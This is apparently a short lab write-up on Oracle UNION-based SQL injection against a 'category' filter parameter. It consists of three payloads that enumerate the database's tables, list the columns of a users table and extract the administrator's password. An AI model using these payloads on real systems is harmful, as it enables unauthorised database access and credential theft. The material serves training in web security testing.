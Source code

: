 #### As we know its an Oracle db, we use following query to dump tables
```
/filter?category=Pets' union select table_name,null from all_tables--

```

#### Next we dump all the columns in the `USERS_XXXXXX` table

```
/filter?category=Pets' union select column_name,null from all_tab_columns where table_name='USERS_XXXXXX'--

```

#### Finally, we dump the password of `administrator` user

```

/filter?category=Pets' union select password_xxxxxx,null from users_xxxxxx where username_xxxxxx='administrator'--

```

